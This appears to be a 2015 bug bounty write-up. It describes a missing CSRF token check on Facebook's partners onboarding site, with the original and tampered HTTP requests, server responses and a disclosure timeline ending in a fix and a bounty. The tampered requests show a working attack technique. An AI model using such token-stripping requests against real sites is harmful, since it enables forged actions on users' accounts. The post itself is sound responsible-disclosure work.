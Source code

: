 
>CSRF in partners.facebook.com

I was looking for something on internet.org, But there is an option for submitting your site to internet.org.That redirected me to this https://partners.facebook.com/cp/onboarding/ .

Jack Whitton wrote an article on site wide csrf in messenger.com. This one explained how facebook was not properly validating the csrf tokens at server side .

My sixth sense was saying that this site would be rarely visited so there would be some bugs. Intially I was trying for IDOR but it failed. Then I tried to remove the fb_dtsg the server response was 200.
Here is the tcp dump of [ Original Request, Edited request, Response].

{% highlight html %}

POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

fb_dtsg=[token]&site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1

{% endhighlight %}



Edited request:
{% highlight html %}
POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1

{% endhighlight %}

Response:

{% highlight js %}
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
Connection: keep-alive
Content-Length: 193

for (;;);{"__ar":1,"payload":null,"jsmods":{"require":[["goURI"]]},"onload":["goURI(\"\\\/cp\\\/onboarding\\\/?submission_id=424609417741749\", true);"],"bootloadable":{},"ixData":{},"lid":"0"}

{% endhighlight %}

Csrf check is missing on every endpoint of partners.facebook.com. Even some can change the submitted site using the id of the post .This could impact the site owners and there reputation.
Another request which uploads banner photo of site
Request:
{% highlight html %}
POST /cp/onboarding/images/submit/?__user=1529285343&__a=1
Host: partners.facebook.com
Content-Type: multipart/form-data; boundary=---------------------------3455666841143476500578378497


-----------------------------3455666841143476500578378497
Content-Disposition: form-data; name="banner"; filename="love.png"
Content-Type: image/png
-----------------------------3455666841143476500578378497--
{% endhighlight %}


Response:

{% highlight html %}
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
{% endhighlight %}


Timeline:
Bug reported:20 August ,2015
Bug acknowledged:21 August, 2015
Bug Poc sent: 24 August, 2015
Bug triaged:3 September,2015
Bug fixed:18 September, 2015 (Now response is 400 if csrf tokens are missing)
Bug bounty awarded :19 September, 2015 . Facebook awarded me 5000$
